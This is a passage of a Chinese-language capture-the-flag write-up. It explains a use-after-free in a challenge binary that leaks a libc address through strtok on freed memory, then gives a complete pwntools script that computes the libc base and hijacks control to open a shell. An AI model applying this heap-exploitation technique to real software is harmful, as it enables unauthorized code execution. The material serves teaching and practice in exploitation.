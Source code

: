 它會依據你上一次傳給 strtok 的字串來進行處理，
但那個字串所在的記憶體區域已經被釋放了。

所以這部分會從 unsorted bin 的 chunk 中印出字串內容，
而這個 chunk 的 fd 和 bk 欄位裡會包含 libc 的位址。

```c
void build_note(const char* title, int index) {
    
    printf("Description for '%s' > ", title);
```

沒錯！所以我們成功拿到了一個 UAF（Use-After-Free），
並利用它來洩漏 libc 位址。

接著，我們可以計算出 atoi 的位址，然後覆蓋成 backdoor 函數的位址。
當程式再次呼叫 atoi 時，就會跳去執行 backdoor，這樣我們就能拿到 shell 了！ 🎉

## exploit
```py
from pwn import *

r=process("./chal")

r.sendlineafter(b"USER @ NAUPMDshell > ", b'1')
r.sendlineafter(b'Size > ',b'1296')

r.sendlineafter(b'Enter titles > ',b'aaaabbbb')
r.sendlineafter(b'> ',b'a')

r.sendlineafter(b"USER @ NAUPMDshell > ", b'1')
r.sendlineafter(b'Size > ',b'-1')

r.recvuntil(b'Description for \'')

leaklibc = u64(r.recv(6).ljust(8,b'\x00'))
libcbase = leaklibc - 0x21ace0

log.success("leaklibc success!")
log.info("leaklibc: "+hex(leaklibc))
log.info("libcbase: "+hex(libcbase))

r.sendlineafter(b'> ',b'a')

password = libcbase + 0x43640 

r.sendlineafter(b"USER @ NAUPMDshell > ", b'4')
r.sendlineafter(b'Input username > ', b'aaaabbbbccccdddd')
r.sendlineafter(b'Input password > ',str(password).encode())

r.interactive()
```



